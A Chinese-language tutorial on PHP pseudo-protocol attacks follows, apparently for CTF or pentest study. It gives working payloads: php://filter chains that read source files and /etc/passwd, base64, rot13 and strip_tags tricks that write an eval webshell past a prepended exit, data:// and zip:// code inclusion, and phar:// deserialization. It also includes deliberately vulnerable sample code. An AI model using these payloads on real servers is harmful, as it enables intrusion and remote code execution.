




# 伪协议

---

**相关文章 & Source & Reference**

- [PHP伪协议的妙用](https://mp.weixin.qq.com/s/SqGH_AoYForFvh5W52fXkQ)

---

## filter协议

php://filter 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。这对于一体式（all-in-one）的文件函数非常有用，类似 readfile()、 file() 和 file_get_contents()， 在数据流内容读取之前没有机会应用其他过滤器。

```
resource=<要过滤的数据流>     这个参数是必须的。它指定了你要筛选过滤的数据流。
read=<读链的筛选列表>         该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
write=<写链的筛选列表>       该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。
```

文件包含的案例
```php
<?php
$file = $_GET["file"];
include($file);
?>
```

在同目录下有一个flag.php文件
```php
<?php
$flag = "flag{test}";
```

想要读取 flag.php 文件，可以利用 filter 伪协议，传参如下：
```
?file=php://filter/convert.base64-encode/resource=flag.php
```

这样即可读到 flag.php 文件 base64 加密过后的内容
```
PD9waHANCg0KJGZsYWcgPSAiZmxhZ3tMeHh4fSI7DQo/Pg==
```

然而，对于 filter 协议，不只有这一种写法：
```php
?file=php://filter/read=convert.base64-encode/resource=flag.php
# 这一种是指定读链的筛选列表

?file=php://filter/read=convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
# 字符编码类型,将其解码，同样可以得到flag.php原内容

?file=php://filter/read=string.toupper|string.rot13/resource=flag.php

?file=php://filter/string.strip_tags=/etc/passwd
```

---

假设我们有以下代码
```php
<?php
$content = $_POST['content'];
file_put_contents($_GET['filename'], "<?php exit; ?>".$content);
```

这几行代码允许我们写入文件，但是当我们写入文件的时候会在我们写的字符串前添加 exit 的命令。这样导致我们即使写入了一句话木马，依然是执行不了一句话的。

分析这几行代码，一共需要我们传两个参数，一个是 POST 请求的 content，另一个是 GET 请求的 filename，而对于 GET 请求中的 filename 变量，我们是可以通过 php://filter 伪协议来控制的，在前面有提到，最常见的方法是使用 base64 的方法将 content 解码后传入。

### base64编码绕过

假设我们先随便传入一句话木马：
```
?filename=php://filter/convert.base64-decode/resource=1.php

POSTDATA: content=PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+
```

这个时候我们打开1.php文件：



可以发现里面是一堆乱码，原因是不仅我们的加密后的一句话木马进行了 base64 解码，而且前面的 exit 也进行了解码。

仔细分析一下 exit 的代码：
```php
<?php exit; ?>
```

base64 编码中只包含 64 个可打印字符，而当 PHP 在解码 base64 时，遇到不在其中的字符时，会选择跳过这些字符，将有效的字符重新组成字符串进行解码。

例如：
```php
<?php
$str = "dGVzdA==";
echo base64_decode($str);
?>
```
得到结果：test

如果我们在 str 变量中添加一些不可见的字符或者是不可解码字符（\x00，?）
```php
<?php
$str = "dG?VzdA==";
echo base64_decode($str);
?>
```

得到的结果仍然为：test

因此，对于 exit 中的代码，字符 <、?、;、>、空格等字符不符合 base64 解码范围。最终解码符合要求的只有 phpexit 这 7 个字符，而 base64 在解码的时候，是 4 个字节一组，因此还少一个，所以我们将这一个手动添加上去。

传payload如下：
```
?filename=php://filter/convert.base64-decode/resource=1.php

POSTDATA: content=aPD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+
```

content中第一个字符a就是我们添加的

这个时候我们查看1.php的内容如下：



可以看到一句话木马已经成功写入了。

### rot13编码绕过

除了使用 base64 编码绕过，我们还可以使用 rot13 编码绕过。相比 base64 编码，rot13 的绕过 exit 更加方便，因为不用考虑前面添加的内容是否可以用 base64 解码，也不需要计算可 base64 解码的字符数量。

传payload：
```
?filename=php://filter/string.rot13/resource=2.php

POSTDATA: content=<?cuc riny($_CBFG[1]);?>
```
打开1.php文件：



### 多种过滤器绕过

再仔细观察 exit 的代码：
```php
<?php exit; ?>
```
可以看到 exit 的代码其实本质上是 XML 标签，因此我们可以使用 strip_tags 函数除去该 XML 标签

并且，filter 协议允许我们使用多种过滤器，所以我们还是针对上面的实例代码：
```
?filename=php://filter/string.strip_tags|convert.base64-decode/resource=3.php

POSTDATA: content=PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+
```



---

## php://data

```php
<?php
    $page = $_GET['a'];
    include($page);
?>

// ?a=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
```

其中 base64 部分就是 <?php phpinfo();

---

## zip://

先将要执行的 PHP 代码写好文件名为 phpcode.txt， 将 phpcode.txt 进行 zip 压缩, 压缩文件名为 file.zip, 如果可以上传 zip 文件便直接上传， 若不能便将 file.zip 重命名为 file.jpg 后在上传，其他几种压缩格式也可以这样操作。

由于 # 在 get 请求中会将后面的参数忽略,所以使用 get 请求时候应进行 url 编码为 %23，

```
?file=zip://D:/soft/phpStudy/WWW/file.jpg%23phpcode.txt
```

---

## phar://

`phar://` 和 `php://filter` 、`data://` 等流包装一样，都是将一组 php 文件打包，并创建默认执行的标志 (stub)

phar:// 协议可以用于触发反序列化

这个方法是在BlackHat 大会上的 Sam Thomas 分享了 File Operation Induced Unserialization via the “phar://” Stream Wrapper ，该研究员指出该方法在文件系统函数 (file_get_contents 、 unlink 等) 参数可控的情况下，配合 `phar://` 伪协议 ，可以不依赖反序列化函数 unserialize() 直接进行反序列化的操作。

phar 是 PHP 提供的一种压缩和归档的方案，并且还提供了各种处理它的方法。

**phar 结构**

phar 由四部分组成:

1. stub

    即用来标识 phar 文件的部分，类似 MZ 头。格式为
    ```php
    <?php
    Phar::mapPhar();
    include 'phar://phar.phar/index.php';
    __HALT_COMPILER();
    ?>
    ```

2. manifest describing the contents

    phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分，也存储用户自定义的meta-data，这是用来攻击的入口，最核心的地方

3. the file contents

    被压缩文件的内容

4. signature for verifying Phar integrity

    可选项，即签名。
